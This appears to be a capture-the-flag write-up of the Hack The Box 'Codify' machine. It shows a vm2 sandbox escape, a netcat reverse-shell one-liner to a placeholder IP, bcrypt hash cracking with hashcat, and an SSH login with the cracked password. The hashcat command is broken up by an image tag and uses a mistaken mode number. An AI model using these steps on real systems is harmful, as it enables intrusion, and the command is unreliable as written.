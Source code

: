                                                   CODIFY WRITEUP

-added the box ip to /etc/hosts

-did small nmap scan. found some ports open

-went to the website . Its basically online javascript runner BUT!! BUT!! its using vm2 library for sandboxing
<img width="1249" alt="Screenshot 2023-12-04 at 9 16 51 PM" src="https://github.com/a6ar55/HTB-writeups/assets/117556787/cc49689a-7f8e-4e19-b8d9-765c1f426759">


after basic googling found out that its vulnerable to RCE.

lot long after found this exploit. “https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac”

first of all lets look what’s inside /etc/passwd 

Yess!  we got the user joshua
<img width="1337" alt="Screenshot 2023-12-04 at 9 25 01 PM" src="https://github.com/a6ar55/HTB-writeups/assets/117556787/5de94ffd-4944-43e3-9eb7-1a1eb1102394">



now lets try to get reverse shell.

lets go to https://www.revshells.com/ and find a suitable command 

after searching for few minute found this working command  “`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|**sh** -i 2>&1|nc <tunnel-ip> **1234** >/tmp/f`”

HELL YEAH!! Got the reverse shell
<img width="1336" alt="Screenshot 2023-12-04 at 9 37 51 PM" src="https://github.com/a6ar55/HTB-writeups/assets/117556787/d2e7837b-2a28-44a3-899b-58e605ddb72e">


went through the directories and found this in /var/www/contact/tickets.db
<img width="865" alt="Screenshot 2023-12-04 at 10 10 41 PM" src="https://github.com/a6ar55/HTB-writeups/assets/117556787/13a9b32c-c2bd-480f-8a20-9e435dfa5a49">



basically this is a bcrypt hash lets crack it with hashcat 

`“hashcat -a 0 -m 320
<img width="852" alt="Screenshot 2023-12-04 at 10 11 18 PM" src="https://github.com/a6ar55/HTB-writeups/assets/117556787/3b3ed111-7da7-43bc-98d5-1415986009bd">
0 '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' rockyou.txt”`


and voila we got the password for `joshua` its `spongebob1`

from the  nmap we noticed that port 22 was open now lets try sshing into joshua with the password we got.

`ssh joshua@10.10.11.239`
<img width="864" alt="Screenshot 2023-12-04 at 10 19 31 PM" src="https://github.com/a6ar55/HTB-writeups/assets/117556787/e2cc0e10-1237-493d-bbb6-7032d59be5e5">


and finally lets snatch over user flag!!!


<img width="406" alt="Screenshot 2023-12-04 at 10 20 39 PM" src="https://github.com/a6ar55/HTB-writeups/assets/117556787/91dc6e61-eb05-4221-8280-0883f2a1321a">


